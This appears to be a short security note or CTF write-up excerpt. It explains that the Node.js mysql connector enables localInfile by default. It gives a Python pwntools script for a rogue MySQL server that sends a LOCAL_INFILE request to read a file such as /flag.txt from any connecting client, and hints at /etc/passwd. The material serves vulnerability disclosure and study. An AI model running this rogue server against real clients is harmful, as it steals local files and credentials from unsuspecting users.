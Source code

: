 # Details

`mysql` connector of nodejs by default has `localInfile` [set to true](https://github.com/mysqljs/mysql/blob/dc9c152a87ec51a1f647447268917243d2eab1fd/lib/ConnectionConfig.js#L36), which allows mysql servers to load local files from the client by returning a [`0xFB LOCAL_INFILE packet`](https://mariadb.com/kb/en/packet_local_infile/).

exploit:
```py
#from: https://balsn.tw/ctf_writeup/20180324-volgactf/
#!/usr/bin/env python3
# Python 3.6.4
from pwn import *

server = listen(3306)

server.wait_for_connection()
# Server Greeting
server.send(bytes.fromhex('4a0000000a352e372e32310007000000447601417b4f123700fff7080200ff8115000000000000000000005c121c5e6f7d387a4515755b006d7973716c5f6e61746976655f70617373776f726400'))
# Client login request
print(server.recv())
# Server Response OK
server.send(bytes.fromhex('0700000200000002000000'))
# Client SQL query
print(server.recv())
# Server response with evil
query_ok = bytes.fromhex('0700000200000002000000')
dump_etc_passwd = bytes.fromhex('0a000001fb2f666c61672e747874')
server.send(dump_etc_passwd)

# This contains the flag VolgaCTF{hoz3foh3wah6ohbaiphahg6ooxumu8ieNg7Tonoo}
print(server.recv())
```
